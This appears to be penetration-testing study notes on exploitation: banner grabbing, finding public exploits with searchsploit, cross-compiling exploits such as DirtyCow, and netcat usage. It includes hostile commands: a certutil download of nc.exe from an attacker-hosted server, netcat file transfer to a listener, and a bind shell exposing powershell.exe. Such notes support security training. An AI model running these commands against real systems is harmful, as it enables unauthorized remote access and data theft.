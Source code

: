 # Overview
Exploitation consists of the tactics, techniques, and procedures that attackers/adversaries utilize to gain an initial foothold on a target system and consequently the target network.

# Topics
- [Vulnerability Scanning](#Vulnerability_Scanning)
- [Searching for Exploits](#Searching_for_Exploits)
- [Fixing Exploits](#Fixing_Exploits)
- [Bind & Reverse Shells](#Bind_and_Reverse_Shells)
- Exploitation Frameworks
- Windows Exploitation
- Linux Exploitation
- AV Evasion & Obfuscation

# Vulnerability_Scanning
## Banner Grabbing
- Identify service and version
- Can use NMAP to banner grab or to run scripts to discover service information
	- [nmap](../../Tools/NMAP.md)
- netcat
	- `nc -v <IP> <port>` : grabs banner
- Try logging in with FTP or SSH
	- [FTP](../../Services/FTP.md)
	- [SSH](../../Services/SSH.md)
- Web server, try loading the webpage and walking through it.
	- Can view the page source etc...
	- [HTTP](../../Services/HTTP.md)
- Metasploit-Framework
	- [MSF](../../Tools/MSF.md)

---

# Searching_for_Exploits
- web search or google service and version
	- [Exploit-db](https://www.exploit-db.com) - External
	- [Rapid7](https://www.rapid7.com/db/) - External
	- [Google-Hakcing-DB](https://www.exploit-db.com/google-hacking-database) - External
- searchsploit
	- `searchsploit openssh 7.2` : search for exploits
	- `exploitdb` is the package on kali
	- `/usr/share/exploitdb` : storage location
	- -u : --update : update the database
	- -m : --mirror : copy to current directory
	- -x : --examine : opens in $PAGER to view
	- -c : case specific search ex "OpenSSH"
	- -t : search within title
	- -e : "Windows XP" exact matching
	- -w : show web url

---

# Fixing_Exploits
Download and read the code on exploits from exploit-db. You will need to know if variables such as local ip need to be changed along with needing to run netcat listener and hosting a web server for payloads.
## Compiling-Exploits
Cross-compiling is for compiling code for another platform or into a portable executable. Sometime the author will include instructions within the code for compilation options.
- gcc : GNU C compiler
- Mingw-w64 : open source windows portable executable
- VLC exploit example - Windows
	- `i686-w64-mingw32-gcc 9303.c -o exploit`
	- `i686-w64-mingw32-gcc 9303.c -o exploit -lws2_32` : 32bit
- DirtyCow example - Linux
	- `gcc -pthread dirty.c -o dirty -lcrypt` 

---

# Bind_and_Reverse_Shells
## Netcat
- `nc -nv 10.4.20.244 80`
- `nc -lnvp <port>` : set up netcat listener
- -n : --nodns
- -l : --listen
- -v : --verbose
- -p : source port
- -u : --udp
- -e : `--exec <command>`
### Send Files
Transfer netcat to Windows.
1. Inside `/usr/share/windows-binaries/` : go to folder
2. `python -m SimpleHTTPServer 80` : set up hosting of the files for DL on Win
3. `certutil -urlcache -f http://<IP>/nc.exe nc.exe` : download using windows utility and save to file "nc.exe"

Listener
```bash
nc -lnvp 1234 > test.txt
```
Sender
```bash
nc -nv <ip> 1234 < test.txt
```

## Bind_Shell
A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

Listener
```bash
nc -lnvp 1234 -e powershell.exe
```
Sender
```bash
nc -nv <ip> 1234
```

